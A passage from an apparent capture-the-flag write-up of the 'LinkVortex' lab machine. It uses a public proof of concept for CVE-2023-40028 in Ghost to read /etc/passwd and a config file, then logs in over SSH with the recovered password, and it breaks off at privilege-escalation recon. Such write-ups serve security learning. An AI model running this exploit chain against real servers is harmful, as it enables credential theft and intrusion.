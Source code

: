 - **Request the file**
  - Command: `curl http://linkvortex.htb/content/images/test-file.png`
      - Output:
        ```
        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        ```

---

## 4. Exploitation

- **Use a Proof of Concept**
  - Downlaod from https://github.com/0xyassine/CVE-2023-40028/tree/master
  - Change url endpoint
    ```
    #GHOST ENDPOINT
    GHOST_URL='http://linkvortex.htb'
    ```
- **Prompt to read the file at `/var/lib/ghost/config.production.json`**
      - Output:
        ```
        file> /var/lib/ghost/config.production.json
        <...SNIP...>
        "host": "linkvortex.htb",
        "port": 587,
        "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
        <...SNIP...>
        ```
- **SSH**
  - Commnad `ssh bob@linkvortex.htb`

- **User Flag obtained**
  - Flag : 62b09350943fdbc28d07e178eb7a277d

---

## 5. Privilege Escalation


- **Check for Sudo Rights**
  - Command: `sudo -l`
    - Output: 
        ```
        Matching Defaults entries for bob on linkvortex:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/s
        nap/bin, use_pty, env_keep+=CHECK_CONTENT
        User bob may run the following commands on linkvortex:
        (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
        ```
